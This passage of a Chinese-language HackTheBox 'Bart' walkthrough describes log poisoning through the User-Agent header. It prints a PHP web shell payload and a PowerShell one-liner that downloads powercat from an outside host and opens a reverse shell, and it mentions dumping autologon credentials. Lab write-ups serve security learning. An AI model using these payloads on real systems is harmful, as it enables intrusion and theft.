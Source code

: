 也就是说，如果我们修改我们的`user-agent`，发包到这个php我们就可以记录任何东西到log.txt，但是txt我们无法利用，我们可以尝试把它到后缀改为php，在服务区上生成log.php，然后存入我们修改的`user-agent`，这样就可以被我们轻松利用

发包测试

![image-20200928091538794]({{ site.url }}/assets/Bart_81.assets/image-20200928091538794.png)

通过使用burp更改`user-agent`，我们可以将所需的内容添加到指定的文件中。就可以实现完整的RCE：

按照源码手动制作一个包，但是我们修改包的内容，使他不在生成`log.txt`，而是`log.php`。同时在`user-agent`写入我们需要的

cmd-shell参数，如下

```php+HTML
GET /log/log.php?filename=log.php&username=harvey

User-Agent: <?php echo(exec($_GET['cmd']));?>
```

![image-20200928091732445]({{ site.url }}/assets/Bart_81.assets/image-20200928091732445.png)

测试

增加`cmd=ipconfig`参数

![image-20200928091801378]({{ site.url }}/assets/Bart_81.assets/image-20200928091801378.png)

成功。

现在尝试powercat 得到shell，注意把这个cmd命令给到burp suite之后一定要选中cmd=后面的命令然后使用快捷键ctrl+U进行url修饰。

否则无法执行成功！！！！！！

```powershell
cmd=powershell -c "IEX (New-Object System.Net.Webclient).DownloadString('http://10.10.14.41:8080/powercat.ps1');powercat -c 10.10.14.41 -p 4444 -e cmd"
```

![image-20200928093405769]({{ site.url }}/assets/Bart_81.assets/image-20200928093405769.png)

在监听端口得到shell，但是很多操作都做不了

![image-20200928093425752]({{ site.url }}/assets/Bart_81.assets/image-20200928093425752.png)

检查

```poweshell
powershell "[Environment]::Is64BitProcess"
```


![image-20200928093542989]({{ site.url }}/assets/Bart_81.assets/image-20200928093542989.png)

说明不在64位运行的，则无法执行一些需要的操作，例如：不可以转储存储在注册表中用于自动登录的默认凭据

![image-20200928093849770]({{ site.url }}/assets/Bart_81.assets/image-20200928093849770.png)

换个64位的nc
